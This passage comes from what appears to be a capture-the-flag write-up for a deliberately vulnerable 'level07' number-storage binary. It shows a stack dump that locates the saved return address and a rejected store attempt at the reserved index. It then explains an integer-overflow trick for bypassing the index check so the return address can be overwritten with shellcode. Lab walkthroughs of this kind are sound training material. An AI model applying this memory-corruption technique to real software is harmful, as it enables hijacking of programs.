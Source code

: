 As you can see, the saved `EIP` is `0xf7e45513`, let's search for that address
on the `exploit.sh` output:
```raw
109: 8048a09
110: f7fceff4
111: 0
112: 0
113: 0
114: f7e45513 <-- Here !
115: 1
116: ffffd794
117: ffffd79c
118: f7fd3000
119: 0
120: ffffd71c
```

And there it is, at index `114`, cool.

So, we just need to overwrite that index with the address of our shellcode, but
there's a little issue:
```bash
$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 33731
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command:
```

So... yeah, remember the __only__ condition we had? The index can't be a
multiple of `3`, and `114` is, so that's why...

But don't worry, check again the line that writes the value:
```c
printf(" Number at data[%u] is %u\n",iVar1,*(undefined4 *)(iVar1 * 4 + param_1));
```

Indeed, it multiplies our input by `4`, so, as we did in `rainfall`, we can
overflow that, to make it turn around, let's make a little program to test
different values.
